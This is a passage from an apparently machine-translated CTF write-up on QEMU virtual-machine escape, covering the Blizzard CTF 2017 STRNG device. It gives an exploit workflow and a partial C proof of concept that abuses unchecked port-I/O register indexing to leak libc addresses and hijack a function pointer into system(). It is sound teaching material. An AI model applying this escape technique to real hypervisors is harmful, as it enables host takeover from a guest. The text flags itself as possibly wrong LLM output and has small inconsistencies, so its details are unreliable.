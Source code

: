 ## Stage 2: Simple OOB with PMIO — Blizzard CTF 2017 / STRNG

> https://github.com/rcvalle/blizzardctf2017

This challenge presents a `STRNG` PCI device. In IDA with symbols, locate `pci_strng_realize` registering both MMIO (256-byte window) and PMIO ops.

The 256-byte MMIO perimeter prevents a large out-of-bounds access, so we use PMIO. The handlers index `state->regs[offset>>2]` directly without bounds checks.

Workflow:
1. `iopl(3)` in user space.
2. PMIO write to offset `(65<<2)`, then PMIO read to leak `srand` pointer.
3. Leak high bits similarly, compute `libc_base`, `system`, `/bin/sh` addresses.
4. Map MMIO to write `/bin/sh` into `state->regs[2..3]`.
5. Use PMIO to overwrite the `rand_r` function pointer, passing `&regs[2]`, then trigger it to call `system("cat flag")`.

### PoC Sketch
```c
#include <sys/io.h>
#include <sys/mman.h>
...
int main() {
  if (iopl(3) < 0) die("iopl");
  // leak srand
  outl(65<<2, base_port);
  uint32_t low = inl(base_port+4);
  // leak high bits
  outl(66<<2, base_port);
  uint32_t high = inl(base_port+4);
  uint64_t srand_addr = ((uint64_t)high<<32)|low;
  ... // compute libc_base, system, binsh
  // write function pointers via PMIO
  outl(69<<2, base_port);
  outl(system & 0xffffffff, base_port+4);
  outl(70<<2, base_port);
  outl(system>>32, base_port+4);
  // write "/bin/sh" via MMIO regs
  volatile uint8_t *mmio = mmap(...);
  *(uint32_t*)(mmio + 2*4) = *(uint32_t*)"/bin";
  *(uint32_t*)(mmio + 3*4) = *(uint32_t*)"/sh\0\0";
  // trigger rand_r override
  outl(71<<2, base_port);
  return 0;
}
```

## References

- Virtual Machine Escape Primer (in Chinese) by l0tus
- QEMU Escape Introduction by S1nec-1o

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::


